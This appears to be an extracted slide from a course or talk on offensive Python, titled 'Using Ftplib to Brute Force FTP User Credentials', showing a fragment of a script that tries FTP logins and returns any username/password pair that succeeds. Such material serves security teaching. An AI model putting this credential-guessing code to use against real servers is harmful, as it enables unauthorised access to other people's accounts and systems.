

Using Ftplib to Brute Force FTP User Credentials Contd..
try:
                ftp.login(username, password)
                print(f'\n[*] {str(hostname)} FTP Logon Succeeded: '
                      f'{username}/{password}')
                ftp.quit()
                return username, password
except Exception as e:
                print(f'[-] Exception: {e}')
                pass
        print('\n[-] Could not brute force FTP credentials.')
        return None, None